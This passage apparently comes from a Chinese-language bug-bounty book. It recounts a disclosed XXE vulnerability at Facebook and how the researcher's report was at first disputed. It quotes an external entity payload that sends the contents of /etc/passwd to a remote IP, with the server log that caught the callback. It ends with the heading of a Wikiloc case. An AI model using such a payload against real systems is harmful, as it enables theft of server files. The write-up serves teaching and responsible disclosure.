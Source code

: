 ```
➎ <!ENTITY send SYSTEM 'http://197.37.102.90/FACEBOOK-HACKED?%file;'>
```

首先，`%dtd;` 将引用外部的 *ext.dtd* 文件，并使 `%send;` 实体可用 ➎。接着，解析器将解析 `%send;` ➍，这将发起对 `http://197.37.102.90/FACEBOOK-HACKED?%file;` ➎ 的远程调用。`%file;` 引用了 */etc/passwd* 文件 ➊，因此它的内容将替换 HTTP 请求中的 `%file;` ➎。

调用远程 IP 来利用 XXE 并不总是必要的，尽管它在站点解析远程 DTD 文件时很有用，但又阻止访问本地文件的读取。这类似于服务器端请求伪造（SSRF），如在 第十章 中讨论的那样。通过 SSRF，如果站点阻止访问内部地址，但允许调用外部站点并遵循 301 重定向到内部地址，你可以实现类似的结果。

接下来，Ramadan 在他的服务器上启动了一个本地 HTTP 服务器，用 Python 和 SimpleHTTPServer 接收调用和内容：

```
   Last login: Tue Jul 8 09:11:09 on console

➊ Mohamed:~ mohaab007$ sudo python -m SimpleHTTPServer 80

   Password:

➋ Serving HTTP on 0.0.0.0 port 80...

➌ 173.252.71.129 - - [08/Jul/2014 09:21:10] "GET /ext.dtd HTTP/1.0" 200 -

   173.252.71.129 - -[08/Jul/2014 09:21:11] "GET /ext.dtd HTTP/1.0" 200 -

   173.252.71.129 - - [08/Jul/2014 09:21:11] code 404, message File not found

➍ 173.252.71.129 - -[08/Jul/2014 09:21:10] "GET /FACEBOOK-HACKED? HTTP/1.0" 404
```

在 ➊ 处是启动 Python SimpleHTTPServer 的命令，它在 ➋ 处返回消息 `"Serving HTTP on 0.0.0.0 port 80..."`。终端等待，直到接收到对服务器的 HTTP 请求。起初，Ramadan 没有收到响应，但他等待直到最终在 ➌ 收到远程调用以检索 */ext.dtd* 文件。如预期，他随后看到回调到服务器的 */FACEBOOK-HACKED?* ➍，但遗憾的是没有附加 */etc/passwd* 文件的内容。这意味着要么 Ramadan 无法通过这个漏洞读取本地文件，要么 */etc/passwd* 文件不存在。

在继续这个报告之前，我应该补充一点，Ramadan 本可以提交一个不向他的服务器发起远程调用的文件，而是直接尝试读取本地文件。但初步的远程 DTD 文件调用证明了 XXE 漏洞的存在（如果成功），而失败的本地文件读取尝试并不能证明这一点。在这种情况下，由于 Ramadan 记录了 Facebook 向其服务器发出的 HTTP 调用，他可以证明 Facebook 正在解析远程 XML 实体，且即使他无法访问 */etc/passwd*，仍然存在漏洞。

当 Ramadan 报告漏洞时，Facebook 回复要求提供概念验证视频，因为他们无法重现上传过程。之后，在 Ramadan 提供视频后，Facebook 否认了提交的有效性，并表示是某个招聘人员点击了链接，从而发起了请求到他的服务器。经过几封邮件交流后，Facebook 团队继续深入调查，确认漏洞存在并奖励了奖金。与 2013 年初的 XXE 漏洞不同，Ramadan 的 XXE 漏洞无法升级为远程代码执行，因此 Facebook 奖励了较小的奖金。

#### ***要点***

这里有几点要注意的内容。XML 文件有不同的格式和大小：留意接受 *.docx*、*.xlsx*、*.pptx* 和其他 XML 文件类型的网站，因为可能有自定义应用程序在解析文件的 XML。最初，Facebook 认为是某个员工点击了一个恶意链接，连接到了 Ramadan 的服务器，这本不算 SSRF。但经过进一步调查，Facebook 确认请求是通过另一种方式发起的。

正如你在其他案例中看到的，有时报告最初会被拒绝。如果你确定漏洞是有效的，那么继续与你报告的公司合作是很重要的，不要放弃解释为什么某个问题可能是漏洞，或者为什么它可能比公司最初评估的更加严重。

### **Wikiloc XXE**

**难度：** 困难

**网址：** *[`wikiloc.com/`](https://wikiloc.com/)*

**来源：** *[`www.davidsopas.com/wikiloc-xxe-vulnerability/`](https://www.davidsopas.com/wikiloc-xxe-vulnerability/)*
